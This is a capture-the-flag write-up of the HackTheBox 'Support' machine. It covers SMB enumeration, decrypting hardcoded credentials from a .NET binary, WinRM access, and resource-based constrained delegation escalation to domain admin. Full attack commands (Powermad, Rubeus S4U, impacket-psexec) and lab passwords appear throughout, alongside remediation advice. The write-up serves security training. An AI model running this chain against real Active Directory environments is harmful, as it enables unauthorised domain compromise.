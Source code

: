 # SUPPORT

![Support Info Card](Support_info-card.png)

This write-up details the attack path taken against the Support box on HackTheBox, outlining the techniques and vulnerabilities exploited to achieve remote code execution on the domain controller.

## Reconnaissance and Enumeration

The initial phase began with an **Nmap** scan that revealed multiple open ports associated with Active Directory services.

<details>
<summary>See Nmap Results</summary>

    ❯ sudo nmap -sC -sV -T4 -vv -oA nmapScans/support 10.129.243.69
    Command executed at: 2025-03-04 16:17:59
    Starting Nmap 7.95 ( https://nmap.org ) at 2025-03-04 16:17 PST
    <SNIP>
    PORT     STATE SERVICE       REASON          VERSION
    53/tcp   open  domain        syn-ack ttl 127 Simple DNS Plus 
    88/tcp   open  kerberos-sec  syn-ack ttl 127 Microsoft Windows Kerberos (server time: 2025-03-05 00:18:11Z)
    135/tcp  open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
    139/tcp  open  netbios-ssn   syn-ack ttl 127 Microsoft Windows netbios-ssn
    389/tcp  open  ldap          syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: support.htb0., Site: Default-First-Site-Name)
    445/tcp  open  microsoft-ds? syn-ack ttl 127
    464/tcp  open  kpasswd5?     syn-ack ttl 127
    593/tcp  open  ncacn_http    syn-ack ttl 127 Microsoft Windows RPC over HTTP 1.0
    636/tcp  open  tcpwrapped    syn-ack ttl 127
    3268/tcp open  ldap          syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: support.htb0., Site: Default-First-Site-Name)
    3269/tcp open  tcpwrapped    syn-ack ttl 127
    5985/tcp open  http          syn-ack ttl 127 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
    ...
    Nmap done: 1 IP address (1 host up) scanned in 60.19 seconds

</details>

### **Did You Know?**

> **SMB (Port 445)** is commonly targeted in attacks due to its role in file sharing and authentication. Vulnerabilities like EternalBlue (MS17-010) have been used in major cyberattacks, including WannaCry.

> **LDAP (Ports 389 & 3268)** is crucial for querying Active Directory. Misconfigurations can allow unauthorized enumeration of users and groups, revealing sensitive information.

Next, **SMB enumeration** showed that anonymous access was enabled. Listing available shares revealed the `support-tools` share, which contained a potentially interesting file: `UserInfo.exe.zip`.

```sh
❯ smbclient -N -L //10.129.243.69
```

```sh
❯ smbclient -N //10.129.243.69/support-tools/
```

<details>
<summary>See Directory Listing</summary>

    Sharename       Type      Comment
    ---------       ----      -------
    ADMIN$          Disk      Remote Admin
    C$              Disk      Default share
    IPC$            IPC       Remote IPC
    NETLOGON        Disk      Logon server share 
    support-tools   Disk      support staff tools
    SYSVOL          Disk      Logon server share 

    smb: \> dir support-tools
      .                                   D        0  Wed Jul 20 10:01:06 2022
      ..                                  D        0  Sat May 28 04:18:25 2022
      ...
      UserInfo.exe.zip                    A   277499  Wed Jul 20 10:01:07 2022

</details>

The file was then downloaded for further analysis.

## Analysis and Exploitation

Research indicated that **UserInfo.exe** is a tool used to display Active Directory user information. The accompanying **UserInfo.exe.config** file revealed that it was built using the **.NET Framework**.

### **Did You Know?**
> **dnSpy** is a tool that can decompile .NET programs back into source code.

Upon decompiling the executable using dnSpy, a set of hardcoded credentials was discovered.
![Encoded Password - dnSpy](EncodedPassword_dnSpy.png)

The `LdapQuery()` method queries `support.htb` with username `support` and a password obtained from the `getPassword()` method.
The code snippet below from the `getPassword()` method shows how an encrypted password is decrypted using a static key:

```csharp
public static string getPassword()
{
    byte[] array = Convert.FromBase64String(Protected.enc_password);
    for (int i = 0; i < array.Length; i++)
    {
        array[i] = (array[i] ^ Protected.key[i % Protected.key.Length] ^ 223);
    }
    return Encoding.Default.GetString(array);
}

private static string enc_password = "0Nv32PTwgYjzg9/8j5TbmvPd3e7WhtWWyuPsyO76/Y+U193E";
private static byte[] key = Encoding.ASCII.GetBytes("armando");
```

A simple Python script was then used to reverse the encoding, resulting in the decrypted password:

```python
import base64

enc_password = "0Nv32PTwgYjzg9/8j5TbmvPd3e7WhtWWyuPsyO76/Y+U193E"
key = "armando".encode('ascii')

decoded_bytes = base64.b64decode(enc_password)
decrypted_bytes = bytearray(decoded_bytes)
for i in range(len(decoded_bytes)):
    decrypted_bytes[i] = decoded_bytes[i] ^ key[i % len(key)] ^ 223

decrypted_password = decrypted_bytes.decode('utf-8', errors='ignore')
print("Decrypted Password:", decrypted_password)
```

This script revealed the plaintext password:

```txt
Decrypted Password: nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz
```

Using this, an LDAP query retrieved additional account details:

```sh
❯ ldapsearch -x -H ldap://support.htb -D "support\ldap" -w 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz' -b "DC=support,DC=htb"
```

The LDAP output revealed the support user’s membership in the Shared Support Accounts group and provided the password:

```txt
support:Ironside47pleasure40Watchful
```

<details>
<summary>See LDAP Output</summary>

    # support, Users, support.htb
    dn: CN=support,CN=Users,DC=support,DC=htb
    objectClass: top
    objectClass: person
    objectClass: organizationalPerson
    objectClass: user
    cn: support
    c: US
    l: Chapel Hill
    st: NC
    postalCode: 27514
    distinguishedName: CN=support,CN=Users,DC=support,DC=htb
    instanceType: 4
    whenCreated: 20220528111200.0Z
    whenChanged: 20220528111201.0Z
    uSNCreated: 12617
    info: Ironside47pleasure40Watchful 
    memberOf: CN=Shared Support Accounts,CN=Users,DC=support,DC=htb
    memberOf: CN=Remote Management Users,CN=Builtin,DC=support,DC=htb
    uSNChanged: 12630
    company: support
    streetAddress: Skipper Bowles Dr
    name: support
    objectGUID:: CqM5MfoxMEWepIBTs5an8Q==
    userAccountControl: 66048
    badPwdCount: 0
    codePage: 0
    countryCode: 0
    badPasswordTime: 0
    lastLogoff: 0
    lastLogon: 0
    pwdLastSet: 132982099209777070
    primaryGroupID: 513
    objectSid:: AQUAAAAAAAUVAAAAG9v9Y4G6g8nmcEILUQQAAA==
    accountExpires: 9223372036854775807
    logonCount: 0
    sAMAccountName: support
    sAMAccountType: 805306368
    objectCategory: CN=Person,CN=Schema,CN=Configuration,DC=support,DC=htb
    dSCorePropagationData: 20220528111201.0Z
    dSCorePropagationData: 16010101000000.0Z

</details>

This password was then used to establish a WinRM session on port 5985:

```sh
❯ evil-winrm -i support.htb -u support -p 'Ironside47pleasure40Watchful'
```

A quick check on the desktop confirmed the user flag:

```powershell
*Evil-WinRM* PS C:\Users\support\Desktop> type user.txt
38a856xxxxxxxxxxxxxx898dc8
```

### **Defensive Countermeasure**

> Avoid storing credentials in compiled applications. Use **secure vaults** or environment variables instead.

## Privilege Escalation via RBCD

Further enumeration using **SharpHound** and **BloodHound** showed that the `support` user had **GenericAll** privileges over the domain controller, making an **RBCD attack** viable.

![BloodHound Data](Bloodhound_GenericAll.png)

A rogue computer account, **FAKE01**, was added to the domain using PowerMad:

```powershell
*Evil-WinRM* PS C:\Users\support\Documents> import-module .\Powermad.ps1
*Evil-WinRM* PS C:\Users\support\Documents> New-MachineAccount -MachineAccount FAKE01 -Password $(ConvertTo-SecureString 'P@ssw0rd123!' -AsPlainText -Force)
```

Verification of the new account was performed using **PowerView**:

```powershell
*Evil-WinRM* PS C:\Users\support\Documents> Get-DomainComputer FAKE01
```

This also gave us the ObjectSID, which is used to identify our **FAKE01** object in the following commands.

```powershell
distinguishedname      : CN=FAKE01,CN=Computers,DC=support,DC=htb
objectclass            : {top, person, organizationalPerson, user...}
name                   : FAKE01
objectsid              : S-1-5-21-1677581083-3380853377-188903654-6101
samaccountname         : FAKE01$
localpolicyflags       : 0
codepage               : 0
samaccounttype         : MACHINE_ACCOUNT
```

The new machine account was then given permissions to impersonate users

```powershell
*Evil-WinRM* PS C:\Users\support\Documents> $SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;S-1-5-21-1677581083-3380853377-188903654-6101)"
*Evil-WinRM* PS C:\Users\support\Documents> $SDBytes = New-Object byte[] ($SD.BinaryLength)
*Evil-WinRM* PS C:\Users\support\Documents> $SD.GetBinaryForm($SDBytes, 0)
*Evil-WinRM* PS C:\Users\support\Documents> Get-DomainComputer "DC.SUPPORT.HTB" | Set-DomainObject -Set @{'msds-allowedtoactonbehalfofotheridentity'=$SDBytes}
```

With GenericAll privileges and RBCD in place, **FAKE01** was used to impersonate the **Administrator**. An RC4 hash for **FAKE01** was generated with Rubeus:

```powershell
*Evil-WinRM* PS C:\Users\support\Documents> ./Rubeus.exe hash /password:'P@ssw0rd123!' /user:fake01 /domain:SUPPORT.HTB
```

Then, a Kerberos ticket was requested for the **Administrator** account:

```powershell
*Evil-WinRM* PS C:\Users\support\Documents> ./Rubeus.exe s4u /user:fake01 /rc4:7DFA0531D73101CA080C7379A9BFF1C7 /impersonateuser:Administrator /msdsspn:cifs/DC.SUPPORT.HTB /ptt /nowrap
```

After confirming the ticket was cached using `klist`, the base64 kirbi ticket was converted to a ccache file:

```sh
❯ base64 -d administrator.ticket.kirbi.b64 > administrator.ticket.kirbi
❯ sudo impacket-ticketConverter administrator.ticket.kirbi administrator.ccache
```

With RBCD configured, the **Administrator’s ticket** was forged using `Rubeus`:

```powershell
*Evil-WinRM* PS C:\Users\support\Documents> .\Rubeus.exe s4u /user:FAKE01 /rc4:P@ssw0rd123! /impersonateuser:Administrator /msdsspn:cifs/DC.SUPPORT.HTB /ptt
```

Finally, an **impacket-PsExec** session was established to gain domain admin access:

```sh
❯ KRB5CCNAME=administrator.ccache 
❯ sudo impacket-psexec support.htb/administrator@dc.support.htb -k -no-pass
```

```cmd
C:\Users\Administrator\Desktop> type root.txt
b34047xxxxxxxxxxxxx73db50
```

![Completion](completion.png)

## Findings and Remediation

### Findings

- **Anonymous SMB Access:** The configuration allowed anonymous listings, exposing sensitive shares.
- **Insecure File Sharing:** The `support-tools` share contained exploitable files, such as `UserInfo.exe.zip`.
- **Hardcoded Credentials:** The decompiled `UserInfo.exe` revealed hardcoded credentials that facilitated further exploitation.
- **Excessive AD Privileges:** The `support` user’s membership in a group with GenericAll rights enabled domain controller compromise via RBCD.

### Remediation

- **SMB Hardening:** Disable anonymous access and enforce strict authentication protocols.
- **Secure File Shares:** Limit access to sensitive shares to authorized users only.
- **Code Security:** Avoid embedding hardcoded credentials; instead, implement secure credential management and conduct regular code audits.
- **Active Directory Audits:** Regularly review and restrict group memberships and privileges, ensuring adherence to the principle of least privilege.

## Lessons Learned

This engagement highlights the risks inherent in misconfigured services and insecure coding practices. Decompiling .NET applications can easily expose sensitive data that developers may assume is hidden. Moreover, default domain settings—such as allowing the creation of multiple computer accounts and overly permissive rights—can be exploited to escalate privileges. With GenericAll access over critical systems, attackers can leverage RBCD to impersonate high-privilege accounts, leading to full network compromise.
